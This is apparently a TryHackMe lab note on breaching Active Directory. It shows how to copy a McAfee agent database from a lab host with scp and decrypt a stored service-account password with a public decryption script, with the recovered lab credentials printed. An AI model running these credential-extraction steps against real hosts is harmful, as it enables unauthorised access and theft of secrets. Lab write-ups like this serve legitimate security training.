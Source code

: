 

If we can access a McAfee database file:
```sh
PS C:\ProgramData\McAfee\agent\db> ls
    Directory: C:\ProgramData\McAfee\agent\db

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         3/5/2022   6:45 PM         120832 ma.db
```

```sh
┌──(kali㉿kali)-[~/thm/breaching-ad]
└─$ scp thm@THMJMP1.za.tryhackme.com:C:/ProgramData/McAfee/Agent/DB/ma.db .
thm@thmjmp1.za.tryhackme.com´s password: 
ma.db                                                                         100%  118KB 626.2KB/s   00:00  

┌──(kali㉿kali)-[~/thm/breaching-ad]
└─$ sqlitebrowser ma.db
```

![[Images/Pasted image 20250306211442.png]]

https://github.com/funoverip/mcafee-sitelist-pwd-decryption
```sh
┌──(kali㉿kali)-[~/thm/breaching-ad]
└─$ python3 mcafee_sitelist_pwd_decrypt3.py jWbTyS7BL1Hj7PkO5Di/QhhYmcGj5cOoZ2OkDTrFXsR/abAFPM9B3Q==
Crypted password   : jWbTyS7BL1Hj7PkO5Di/QhhYmcGj5cOoZ2OkDTrFXsR/abAFPM9B3Q==
Decrypted password : MyStrongPassword!
```

The account name can also be seen in the database: `svcAV`

